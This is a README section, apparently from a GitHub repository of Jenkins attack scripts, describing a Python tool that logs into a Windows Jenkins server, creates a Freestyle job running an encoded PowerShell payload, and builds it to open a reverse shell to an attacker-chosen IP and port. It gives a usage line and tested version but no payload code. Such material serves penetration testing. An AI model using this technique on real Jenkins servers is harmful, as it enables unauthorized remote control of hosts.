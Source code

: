 ## win_revshell_cmd.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Windows.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new "Freestyle project" JOB.\
![win_revshell_cmd_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_1.png)

Then configures or BUILD it to **"Execute Windows batch command"** with the **Powershell** encoded payload.
![win_revshell_cmd_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:\
python3 ./win_revshell_cmd.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![win_revshell_cmd_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_3.png)
![win_revshell_cmd_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_4.png)

Tested on Jenkins 2.150.2 on Windows 10 Pro 22H2 b.19045
